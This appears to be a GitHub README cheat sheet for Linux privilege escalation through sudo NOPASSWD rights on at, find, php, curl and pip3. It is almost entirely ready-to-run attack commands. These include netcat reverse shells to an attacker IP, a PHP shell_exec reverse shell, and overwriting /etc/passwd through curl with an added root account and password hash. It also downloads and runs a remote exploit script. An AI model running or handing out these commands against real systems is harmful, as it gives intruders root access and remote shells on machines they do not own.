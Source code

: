 # Linux Privilege Escalation

## 1. /usr/bin/at

```
(root) NOPASSWD: /usr/bin/at
```
  **Attacker's machine** 
  
  - start listner on port 4444 using netcat 
  ```
  nc -nvlp 444
  ```
  
  **Victim's machine** 
  
  - create a bash script which contain this command 
  ```
  nc 192.168.0.106 4444 -e /bin/bash
  ``` 
  - run this command and wait for one minute
  ```
  sudo at -f exp.sh now + 1 minutes
  ```
  
## 2. /usr/bin/find

```
(root) NOPASSWD: /usr/bin/find
```
  **Victim's machine**
  
  - create a bash file using 
  ```
  echo "/bin/bash" > find.sh
  ```
  - pop root shell with this command
  ```
  sudo find /etc/passwd -type f -name "passwd" -exec bash find.sh "{}" \;
  ```
  
## 3. /usr/bin/php

```
root) NOPASSWD: /usr/bin/php
```
  **Attacker's machine**
  
  - start listner on port 1234 using netcat 
  ```
  nc -nvlp 1234
  ```
  
  **Victim's machine**
  
  - run this command and replace <IP> with your IP 
 ```
 echo "<?php shell_exec('nc <IP> 1234 -e /bin/sh');?>" > shell.php
 ```
  - pop up root shell
 ```
 sudo php shell.php
 ```

## 4. /usr/bin/curl

```
root) NOPASSWD: /usr/bin/curl
```

  **Attacker's machine**
  
  - Copy /etc/passwd from victim's machine and save it on attacker's machine as pass.txt
  - add this line at this end of the file 
  ```
  pwn:$1$pwn$AxNbnbaujRUXRur/DewJ8/:0:0:/root/root:/bin/bash
  ```
  - start http server using python and note the IP
  ```
  python -m SimpleHTTPServer 8080
  ```
  
  
  **Victim's machine**
  
  - run this command ( replace <IP> with your IP) 
 ```
 sudo curl http://<IP>:8080/pass.txt -o /etc/passwd
 ```
  - change user to **pwn** using password **pwn** 
 ```
 su pwn
 ```
 
## 5. /usr/bin/pip3 OR /usr/bin/pip

```
(root) NOPASSWD: /usr/bin/pip3
```
 **Attacker's machine**
 
 - start listner on port 4444 using netcat 
 ```
 nc -nvlp 4444
 ```
 
 **Victim's machine**
 
 - Download our modified exploit using curl 
 ```javascript 
 curl https://raw.githubusercontent.com/theamanrawat/privilege-escalation/master/Linux/pip_exp.py?token=AISTJLQB7CDRPQS3OWODDE27E23S2 -o exploit.py
 ```
 - run this exploit(replace <IP> with attacker's IP) and wait few seconds
 ```
 python3 exploit.py <IP> 4444 /usr/bin/pip3
 ```
  
